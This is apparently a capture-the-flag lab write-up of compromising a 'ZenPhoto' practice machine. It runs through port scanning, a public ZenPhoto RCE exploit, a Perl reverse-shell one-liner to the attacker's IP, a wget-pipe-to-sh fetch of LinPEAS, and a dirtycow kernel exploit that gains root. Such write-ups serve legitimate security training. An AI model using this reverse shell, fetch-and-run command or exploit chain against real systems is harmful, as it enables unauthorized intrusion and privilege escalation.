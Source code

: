 # ZenPhoto (rough notes)

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -T4 -p- zenphoto                                                            
...

PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p 22,23,80,3306 -A zenphoto 
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
|_http-server-header: CUPS/1.4
|_http-title: 400 Bad Request
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.14 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking out the server on port 80:

![](./assets/http-80.png)

Enumerating paths with `gobuster`:

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ gobuster dir -u http://zenphoto -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zenphoto
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 303] [--> http://zenphoto/test/]
```

Checking out the `/test/` path:

![](./assets/zenphoto-1.4.1.4.png)

The source code gives away "zenphoto version 1.4.1.4". We look that up on exploit-db:

```
┌──(kali㉿kali)-[~/kevin/HP-Power-Manager-Buffer-Overflow-Python3]
└─$ searchsploit zenphoto 1.4.1.4
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution   | php/webapps/18083.php
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Great, there's an RCE exploit available... let's try it:

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ php 18083.php zenphoto /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# whoami
www-data
```

We get a shell! We quickly find our first flag:

```
zenphoto-shell# ls -la /home
total 12
drwxr-xr-x  2 root     root     4096 Jul  9  2020 .
drwxr-xr-x 22 root     root     4096 Feb 17 06:26 ..
-rw-r--r--  1 www-data www-data   33 Mar  8 22:30 local.txt

zenphoto-shell# cat /home/local.txt
de025c85c2ce3f29f04f3e4fd66c3405
```

I run a few commands, looking for privilege escalation vectors but nothing simple stands out, so I choose to run LinPEAS.

Before we do that, I'll get myself a better shell...

```
zenphoto-shell# perl -e 'use Socket;$i="192.168.45.245";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Catching the reverse shell in Kali:

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.234.41] 43690
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

This machine can't talk to the internet, so I had to download LinPEAS to my Kali machine and serve it over HTTP (and download it in the victim machine from there).


```
┌──(kali㉿kali)-[~]
└─$ wget -q -O linpeas.sh https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

┌──(kali㉿kali)-[~]
└─$ python -m http.server 443                                                                     
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
192.168.234.41 - - [08/Mar/2024 19:48:58] "GET /linpeas.sh HTTP/1.0" 200 -
```

```
$ wget -O- http://192.168.45.245:443/linpeas.sh | sh
--2024-03-09 03:49:01--  http://192.168.45.245:443/linpeas.sh
Connecting to 192.168.45.245:443... connected.
HTTP request sent, awaiting response... 200 OK

      (... linpeas output ...)
```

I spent some time on SUID binaries:

```
-rwsr-sr-x 1 daemon daemon 42K Jan 14  2011 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Apr 19  2011 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
```
Had no luck...

I noticed the LinPEAS results also had A LOT of possible kernel exploits, with some of them showing as "highly probable":

```
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable

[+] [CVE-2010-3904] rds
   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable

[+] [CVE-2016-5195] dirtycow
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable

[+] [CVE-2021-4034] PwnKit
   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable

[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson
   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: probable

[+] [CVE-2010-3848,CVE-2010-3850,CVE-2010-4073] half_nelson
   Details: https://www.exploit-db.com/exploits/17787/
   Exposure: probable

[+] [CVE-2010-3437] pktcdvd
   Details: https://www.exploit-db.com/exploits/15150/
   Exposure: probable

[+] [CVE-2010-3301] ptrace_kmod2
   Details: https://www.exploit-db.com/exploits/15023/
   Exposure: probable

[+] [CVE-2010-2959] can_bcm
   Details: https://www.exploit-db.com/exploits/14814/
   Exposure: probable
   
     (... 20+ more with "Exposure: less probable" ...)
```

Will try them one by one in order of the "Exposure"... first CVE-2016-5195 aka "dirtycow 2":

```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

I modified the code as per the comments e.g. to target user `root` and not the default `firefart` (see [`40839-modified.c`](./exploit/40839-modified.c) vs the original [`40839.c`](./exploit/40839.c)).

Serving it over HTTP in Kali and downloading it + compiling and running it on the victim:

```
$ cd /tmp
$ wget -q -O 40839.c http://192.168.45.245:443/40839.c
$ gcc -pthread 40839.c -o dirtycow -lcrypt
$ chmod +x dirtycow
$ ./dirtycow
Please enter the new password: passpass
```

Not sure why but it just hung there for a while... I Ctrl+C and reconnected...

Upon reconnecting I was able to get root with the password I set earlier!

```
┌──(kali㉿kali)-[~/zenphoto]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.245] from (UNKNOWN) [192.168.234.41] 53757
/bin/sh: can't access tty; job control turned off
$ su root
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@offsecsrv:/tmp$ su root
su root
Password: passpass

root@offsecsrv:/tmp# whoami
whoami
root
```

We quickly find our proof from there:

```
root@offsecsrv:/tmp# cd /root
cd /root
root@offsecsrv:~# cat proof.txt
cat proof.txt
924576cfe5fed7e7daeb89d4e0a13db2
```